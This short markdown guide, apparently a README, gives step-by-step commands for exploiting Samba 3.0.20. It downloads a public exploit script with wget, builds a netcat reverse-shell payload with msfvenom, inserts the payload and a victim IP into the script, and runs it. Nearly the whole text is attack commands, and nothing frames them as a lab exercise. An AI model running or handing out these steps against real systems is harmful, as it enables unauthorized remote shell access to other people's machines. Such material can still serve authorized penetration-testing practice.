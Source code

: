 ### download exploit
```
wget https://raw.githubusercontent.com/macha97/exploit-smb-3.0.20/master/exploit-smb-3.0.20.py
```

### prepare reverse shell
```
msfvenom -p cmd/unix/reverse_netcat lhost=<lhost> lport=<lport> -f python
```

### adjust exploit in exploit-smb-3.0.20.py
```
buf = ""
buf += "[...]"
victim_ip = '<rhost>'
```

### exploit
```
python exploit-smb-3.0.20.py
```

### References
https://www.exploit-db.com/exploits/16320  

